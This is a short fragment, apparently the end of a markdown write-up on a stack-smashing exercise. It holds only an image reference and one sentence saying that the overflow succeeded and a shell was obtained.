    

    Hence the stack smashing was successful and the shell was obtained.
